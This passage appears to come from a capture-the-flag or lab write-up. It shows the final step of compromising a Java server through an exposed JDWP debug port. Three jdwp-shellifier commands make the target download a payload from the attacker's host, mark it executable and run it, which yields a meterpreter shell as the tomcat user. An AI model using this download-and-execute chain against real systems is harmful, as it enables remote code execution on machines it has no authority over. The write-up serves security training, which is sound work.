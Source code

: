 ![](img/20241112155716.png)

Finally, chaining the three commands below causes the server to download the payload binary, set up the required execute permission and run the payload. The incoming connection from the payload is already captured in the screenshot above.

```bash
$ export JGAMES_IP=192.168.73.99
$ export MYIP=10.200.0.13 
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c "wget $MYIP:8000/a -O /tmp/a"
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c 'chmod +x /tmp/a'
$ proxychains python jdwp-shellifier.py -t $JGAMES_IP -p 5005 --break-on 'java.lang.String.indexOf' -c '/tmp/a'
```

Once the meterpreter session is successfully established, the `tomcat` user is compromised.

![](img/20241112155653.png)

The flag is found in the environment variables.
